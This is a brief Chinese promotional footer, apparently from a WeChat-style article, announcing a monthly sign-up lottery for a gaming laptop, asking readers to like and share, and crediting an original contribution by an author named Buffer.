本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
原创投稿作者：Buffer